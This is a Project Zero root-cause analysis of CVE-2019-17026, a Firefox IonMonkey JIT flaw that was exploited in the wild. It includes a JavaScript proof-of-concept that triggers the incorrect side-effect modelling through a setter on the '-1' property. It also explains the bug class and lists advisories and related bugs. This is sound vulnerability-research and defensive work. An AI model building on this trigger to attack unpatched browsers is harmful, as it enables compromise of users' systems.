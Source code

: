# CVE-2019-17026: Firefox Type Confusion in IonMonkey
*Samuel Groß, Project Zero (Originally posted on [Project Zero blog](https://googleprojectzero.blogspot.com/p/rca.html) 2020-08-05)*

## The Basics

**Disclosure or Patch Date:** 8 January 2020

**Product:** Mozilla Firefox

**Advisory:** https://www.mozilla.org/en-US/security/advisories/mfsa2020-03/ 

**Affected Versions:**

**First Patched Version:** Firefox 72.0.1 and Firefox ESR 68.4.1

**Issue/Bug Report:** https://bugzilla.mozilla.org/show_bug.cgi?id=1607443 

**Patch CL:** https://hg.mozilla.org/mozilla-central/rev/d6e40de88f3defdc12ef27e64ca73e120b1f10e2

**Bug-Introducing CL:**

* Adding StoreElementHole: https://hg.mozilla.org/mozilla-central/rev/550a780f73aeb23ea958cab93de141376aa12f3a
* Adding FallibleStoreElement: https://hg.mozilla.org/mozilla-central/rev/26e6632de510d91ea6466008d2eda8f4cf25825f

**Reporter(s):** Qihoo 360 ATA

## The Code

**Proof-of-concept:**

The code should print 1337, but on vulnerable versions prints 42.

```javascript
// Set this to 10 or so to see correct result
const NUM_ITERATIONS = 2000;
const ARRAY_LENGTH = 100;

let OBJ = { a: 41 };
// Need to change property once or IonMonkey
// will assume it's a constant.
OBJ.a = 42;

let ctr = 0;
function f(obj, idx) {
    let v = OBJ.a;
    obj[idx] = v;
    // In the last iteration, the JIT code will get here without
    // bailing out while the StoreElementHole operation above
    // unexpectedly invoked a setter because idx -1 is a property.
    // As the compiler didn't expect side effects, it does not
    // refetch OBJ.a and so returns an incorrect result.
    // Causing type confusions is left as an exercise ;)
    return OBJ.a;
}

function main() {
    for(let i = 0; i < NUM_ITERATIONS; i++) {
        let isLastIteration = i == NUM_ITERATIONS - 1;
        let length = ARRAY_LENGTH;
        let idx = isLastIteration ? -1 : ARRAY_LENGTH;

        let obj = new Array(length);
        Object.defineProperty(obj, '-1', {
            set() {
                print('Setter called, setting OBJ.a to 1337');
                OBJ.a = 1337;
            }
        });

        for (let j = 0; j < length; j++) {
            // Array must not be packed or else a flag change
            // (indicating non-packed elements) will cause
            // invalidation in the last iteration.
            if (j == length/2) {
                continue;
            }
            obj[j] = j;
        }

        let r = f(obj, idx);
        print('Result: ' + r);
    }
}

main();
````

**Exploit sample:** N/A

**Did you have access to the exploit sample when doing the analysis?)** No

## The Vulnerability

**Bug class:** Incorrect side-effect modelling in JIT Compiler

**Vulnerability details:**

The alias information, which describes what side-effects a JIT MIR operation can have, have been changed for the `StoreElementHole` and `FallibleStoreElement` operations. In particular, they have been generalized so the compiler now assumes that executing one of these two operations can change anything. This implies that the modelling was incorrect previously. This bug is thus one of the “incorrect side-effect modelling” issues frequently found in JIT engines. 

Given the patch, it seems likely that the `StoreElementHole` and `FallibleStoreElement` can cause unexpected execution of arbitrary JavaScript. An immediate thought are indexed accessors in the prototype chain, however, the JIT compiler guards against that. As it turns out, however, the `StoreElementHole` and `FallibleStoreElement` operations will happily accept negative numbers as the index, in which case they end up writing a property and not an element (in JavaScript, elements must have integer-valued keys between 0 and I think 0x7fffffff). As such, a property setter on the property ‘-1’ will pass the JITs requirements about the input objects but will also cause unexpected execution of JavaScript during the `StoreElementHole` operation.

**Patch analysis:** N/A

**Thoughts on how this vuln might have been found _(fuzzing, code auditing, variant analysis, etc.)_:**

Based on how well documented & popular this bug class is, it’s likely someone looked for other instances of this bug class.

**(Historical/present/future) context of bug:** 

CVE-2019-17026 was seen exploited in the wild with [CVE-2020-0674](CVE-2020-0674.md), an Internet Explorer 0-day. If the target was running Firefox, CVE-2019-17026 was used. 

[CVE-2019-11707](../2019/CVE-2019-11707.md) is a similar type of bug in Spidermonkey that was also exploited in the wild [[P0 1820](https://bugs.chromium.org/p/project-zero/issues/detail?id=1820)]. 

## The Exploit

**Is the exploit method known?** N/A

**Exploit method:**

Unknown due to not having access to the exploit, but most likely similar to other exploits for this type of bug, such as [CVE-2019-11707](../2019/CVE-2019-11707.md).

## The Next Steps

### Variant analysis

**Areas/approach for variant analysis (and why):**

Same as for [CVE-2019-11707](../2019/CVE-2019-11707.md).

**Found variants:**

### Structural improvements

Same as for [CVE-2019-11707](../2019/CVE-2019-11707.md).

### 0-day detection methods

Same as for [CVE-2019-11707](../2019/CVE-2019-11707.md).

## Other References 
* February 2020: [“Darkhotel (APT-C-06) uses the "Double Star" 0Day vulnerability (CVE-2019-17026, CVE-2020-0674) to analyze the APT attack launched by China (translated)”](https://blogs.360.cn/post/apt-c-06_0day.html) by Qihoo 360 Core Security Team
* March 2020: [“Identifying vulnerabilities and protecting you from phishing”](https://www.blog.google/threat-analysis-group/identifying-vulnerabilities-and-protecting-you-phishing/) by Google Threat Analysis Group 
* April 2020: [JPCERT advises that attacks exploited Firefox CVE-2019-17026 and IE CVE-2020-0674 vulnerabilities simultaneously](https://blogs.jpcert.or.jp/en/2020/04/ie-firefox-0day.html)
* Detailed explanation of the bug class: http://www.phrack.org/papers/jit_exploitation.html 
* Similar bugs in Spidermonkey: 
    + https://doar-e.github.io/blog/2019/06/17/a-journey-into-ionmonkey-root-causing-cve-2019-9810/
    + https://bugs.chromium.org/p/project-zero/issues/detail?id=1820 (also exploited in-the-wild)